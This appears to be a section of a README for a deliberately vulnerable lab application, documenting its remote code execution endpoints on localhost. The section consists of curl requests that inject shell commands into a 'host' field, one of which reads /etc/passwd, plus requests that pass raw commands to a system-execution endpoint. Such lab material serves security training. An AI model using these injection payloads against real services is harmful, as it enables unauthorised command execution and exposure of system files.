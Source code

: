 ## 5. ⚡ RCE (远程代码执行)

### API端点
```bash
# 获取RCE漏洞信息
curl -X GET http://localhost:8080/api/rce/info
```

### Ping命令注入
```bash
# 基础命令注入
curl -X POST http://localhost:8080/api/rce/vulnerable/ping \
  -H "Content-Type: application/json" \
  -d '{"host": "127.0.0.1; whoami"}'

# 使用&&连接符
curl -X POST http://localhost:8080/api/rce/vulnerable/ping \
  -H "Content-Type: application/json" \
  -d '{"host": "127.0.0.1 && id"}'

# 使用管道符
curl -X POST http://localhost:8080/api/rce/vulnerable/ping \
  -H "Content-Type: application/json" \
  -d '{"host": "127.0.0.1 | cat /etc/passwd"}'

# 获取系统信息
curl -X POST http://localhost:8080/api/rce/vulnerable/ping \
  -H "Content-Type: application/json" \
  -d '{"host": "127.0.0.1; uname -a"}'
```

### 系统命令执行
```bash
# 直接执行系统命令
curl -X POST http://localhost:8080/api/rce/vulnerable/system \
  -H "Content-Type: application/json" \
  -d '{"command": "whoami"}'

curl -X POST http://localhost:8080/api/rce/vulnerable/system \
  -H "Content-Type: application/json" \
  -d '{"command": "ls -la"}'

curl -X POST http://localhost:8080/api/rce/vulnerable/system \
  -H "Content-Type: application/json" \
  -d '{"command": "ps aux"}'

curl -X POST http://localhost:8080/api/rce/vulnerable/system \
  -H "Content-Type: application/json" \
  -d '{"command": "netstat -an"}'
```
